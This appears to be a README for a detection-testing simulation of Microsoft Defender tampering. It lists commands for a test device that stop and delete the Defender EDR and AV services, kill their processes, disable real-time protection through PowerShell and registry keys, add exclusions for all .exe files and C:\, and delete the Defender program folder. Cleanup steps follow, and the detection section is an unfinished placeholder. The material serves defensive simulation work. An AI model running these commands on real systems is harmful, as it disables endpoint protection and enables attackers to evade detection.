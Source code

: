 # Defender Tampering Detection

Endpoint protection tampering refers to attempts by attackers to disable or modify security settings on a device to weaken its defenses. This can involve altering antivirus configurations, disabling real-time protection, or modifying registry keys to bypass security controls.

## Simulation

Run the following commands in PowerShell / Windows Command Prompt on a test device.

> **Note:** Download the [simulation script here](Invoke-DefenderTamperingSimulation.ps1).
> To execute the simulation run the command `Invoke-DefenderTamperingSimulation.ps1`.
> To clean up the simulation run the command `Invoke-DefenderTamperingSimulation.ps1 -CleanUp`.

### EDR Tampering

Microsoft Defender Tampering is a technique where attackers disable or interfere with Microsoft Defender to avoid detection of their malicious tools and activities. This may involve killing Defender processes, modifying registry keys, or blocking updates, which disrupts security scanning and prevents the latest security protections from being applied.

Run the following commands in Windows Command Prompt on a test device to attempt to disable MDE EDR solution.

```powershell
net.exe stop Sense
sc.exe delete Sense
taskkill /F /IM MsSense.exe
```

### AV Tampering

Microsoft Defender AV Tampering is a technique where attackers disable or interfere with Microsoft Defender Antivirus to avoid detection of their malicious tools and activities. This may involve killing Defender processes, modifying registry keys, or blocking updates, which disrupts security scanning and prevents the latest security protections from being applied.

#### Attempt to disable using PowerShell

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -MAPSReporting 0
Set-MpPreference -ExclusionExtension "exe" -ExclusionPath "C:\"
```

#### Attempt to disable using Registry Keys

```powershell
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" /v "exe" /t REG_SZ /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" /v "C:\\" /t REG_SZ /d "" /f
```

#### Attempt to disable using command

```powershell
sc stop WinDefend
net stop WinDefend
```

#### Attempt to disable by killing tasks

```powershell
taskkill /IM MsMpEng.exe /F
rmdir /s /q "C:\Program Files\Windows Defender"
```

## Cleanup

```powershell
Set-MpPreference -DisableRealtimeMonitoring $false
Set-MpPreference -MAPSReporting 2
Remove-MpPreference -ExclusionExtension "exe" -ExclusionPath "C:\"

reg.exe delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /f
reg.exe delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /f
reg.exe delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" /v "exe" /f
reg.exe delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" /v "C:\" /f
```

## Detection

[ ] TODO: Add detections from this test